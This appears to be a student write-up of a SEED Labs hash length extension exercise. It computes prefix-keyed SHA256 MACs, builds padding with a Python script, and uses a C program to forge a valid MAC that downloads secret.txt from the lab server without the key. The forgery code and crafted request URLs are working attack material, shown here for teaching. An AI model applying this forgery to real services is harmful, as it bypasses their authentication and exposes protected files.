



# Seedlab Week #10 (Hash Length Extension)

# Task 1: Send Request to List Files

For this first task, the goal is to explore how to send requests to the server and analyze how the server responds to the different requests. To do this, we will create a custom request to list and "download" files from the server.

The structure of the list request is the following: `http://www.seedlab-hashlen.com/?myname=<name>&uid=<need-to-fill>&lstcmd=1&mac=<need-to-calculate>`, where: 
- `myname` is the first and last name of one of the elements of the group (in this case, we used `MansurMustafin`)
- `uid` is one of the uid obtained from the file `key.txt` (possible values are shown below)
- `lstcmd=1` specifies that the request aims to list the files from the server
- `mac` is calculated using a SHA256 hash on the concatenation of the key (obtained from the `key.txt` file) with the argument part of the request

The contents of the `key.txt` file are the following:
```
1001:123456
1002:983abe
1004:98zjxc
1005:xciujk
```
In this file, the first column represents the UID and the second the key associated with each UID. In our case, we chose the UID `1001`, so will be using the key `123456`. 

After selecting the name and UID, we know that the argument part of the request will be: `myname=MansurMustafin&uid=1001&lstcmd=1`

So, we can already calculate the MAC. The message to hash will have the structure `<key>:myname=<name>&uid=<need-to-fill>&lstcmd=1`, so the result is shown below:

```sh
$ echo -n "123456:myname=MansurMustafin&uid=1001&lstcmd=1" | sha256sum
6c753244a060b48032799ffd31c25503cf976ec840a1c10f6b7f62324ebc87a2
```

To send the request, we just have to place the MAC obtained in the correct field:
```
http://www.seedlab-hashlen.com/?myname=MansurMustafin&uid=1001&lstcmd=1&mac=6c753244a060b48032799ffd31c25503cf976ec840a1c10f6b7f62324ebc87a2
```
This request will be correctly authenticated and we will see the server respond with the following message:

<p align="center" justify="center">
    
</p>

In order to send the download request to the server, we need to execute the same steps as we did before, but, with an extra parameter in the argument as shown below:
```
http://www.seedlab-hashlen.com/?myname=<name>&uid=<uid>&lstcmd=1&download=secret.txt&mac=<mac>
```

After the lstcmd, we add the `&download=secret.txt` which will print the contents of the secret.txt file. Choosing the name, UID and key works exactly the same, but calculating the MAC will lead to a slightly different result, as we will have more parameters:
```sh
$ echo -n "123456:myname=MansurMustafin&uid=1001&lstcmd=1&download=secret.txt" | sha256sum
9fa5ff8ec05bc880fb768ba6141c569e3c30911f81ba038da44440a8ba26e15c
```

The final request is constructed exactly the same as the previous one:
```
http://www.seedlab-hashlen.com/?myname=MansurMustafin&uid=1001&lstcmd=1&download=secret.txt&mac=9fa5ff8ec05bc880fb768ba6141c569e3c30911f81ba038da44440a8ba26e15c
```
This request will be correctly authenticated and we will see the server will respond with the following message:

<p align="center" justify="center">
    
</p>

# Task 2: Create Padding

In this second task, we need to calculate the padding for the message request that lists the contents of the server.

According to the RFC6234, the padding of a SHA256 of a message of length L is:
  - one `\x80` byte
  - many `\x00` bytes to pad the contents until the next multiple of 64
  - the last 8 bytes correspond to the **length field** (number of bits in the message M = L * 8)

To help us in this task, we can use a Python script, which performs the following calculations:
1. Obtain the length of the message we will be using (`"123456:myname=MansurMustafin&uid=1001&lstcmd=1"`), which is 46
2. Calculate the total length of the padding, which is 64 - 46 = 18 bytes, including the `\x80` byte and the 8 bytes from the length field (hence the 9 byte offsets in the script)
3. Fill the entire length of the message with `\x00`, and then change the first byte to `\x80`
4. Since the message has a length of 46, it needs L * 8 = 368 bits. This value corresponds to `0x0170` in hexadecimal, so the last values of the padding will be `\x00\x00\x00\x00\x00\x00\x01\x70`

The complete script is as follows:

```py
#!/bin/bash

from math import ceil

message = "123456:myname=MansurMustafin&uid=1001&lstcmd=1"
zeros = ceil((len(message) + 9) / 64) * 64 - len(message) - 9

padding = b'\x80' + b'\x00' * zeros + (len(message) * 8).to_bytes(8, byteorder='big')

print('Padding: "', end='')
for c in padding:
    print(f'\\x{c:02x}', end='')
print('"')

print('Padding (URL ready): "', end='')
for c in padding:
    print(f'%{c:02x}', end='')
print('"')
```

Putting it all together, we end up with the following padding:
```
\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x70
```
Since we will need to add it to the server request, we can already write using `%` instead of `\x` as follows:
```
%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%70
```

# Task 3: Length Extension Attack

For this final task, we will use the Length Extension Attack to send a request to download the contents of the file `secret.txt` without using the keys from the first task.

To do this, we will use the base request to list the contents of the file, for which we already know the valid MAC, as well as the padding calculated on the previous task.

The new request will use the following structure:
```
http://www.seedlab-hashlen.com/?myname=<name>&uid=<uid>&lstcmd=1<padding>&download=secret.txt&mac=<new-mac>
```

In order to obtain the new MAC, we will use the following code, whose template is provided in the seedlab files. We just need to replace the values inside the `htole32` calls with our previous MAC and the `SHA256_Update` call to copu the extra message `&download=secret.txt`.

```C
/* length_ext.c */
#include <stdio.h>
#include <arpa/inet.h>
#include <openssl/sha.h>

int main(int argc, const char *argv[]) {
    int i;
    unsigned char buffer[SHA256_DIGEST_LENGTH];
    SHA256_CTX c;

    SHA256_Init(&c);

    // Process initial message (64 bytes of '*')
    for (i = 0; i < 64; i++) {
        SHA256_Update(&c, "*", 1);
    }

    // Set MAC of the original padded message (manual initialization)
    c.h[0] = htole32(0x6c753244);
    c.h[1] = htole32(0xa060b480);
    c.h[2] = htole32(0x32799ffd);
    c.h[3] = htole32(0x31c25503);
    c.h[4] = htole32(0xcf976ec8);
    c.h[5] = htole32(0x40a1c10f);
    c.h[6] = htole32(0x6b7f6232);
    c.h[7] = htole32(0x4ebc87a2);

    // Append additional message
    SHA256_Update(&c, "&download=secret.txt", 20);

    // Finalize the SHA-256 hash
    SHA256_Final(buffer, &c);

    // Print the resulting hash
    for (i = 0; i < SHA256_DIGEST_LENGTH; i++) {
        printf("%02x", buffer[i]);
    }
    printf("\n");

    return 0;
}
```

If we now compile and execute the program, we will receive the new MAC:

```
$ gcc length_ext.c -o length_ext -lcrypto
$ ./length_ext
59ee11daf37c30024ecda58b705d092c9dedb39a3e3f3832f6471b618b641208
```

To complete the request, we just have to fill the parameters:
```
http://www.seedlab-hashlen.com/?myname=MansurMustafin&uid=1001&lstcmd=1%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%70&download=secret.txt&mac=59ee11daf37c30024ecda58b705d092c9dedb39a3e3f3832f6471b618b641208
```

By sending this request, the server will validate the request and we will see the contents as if we had executed a normal download request.

<p align="center" justify="center">
    
</p>
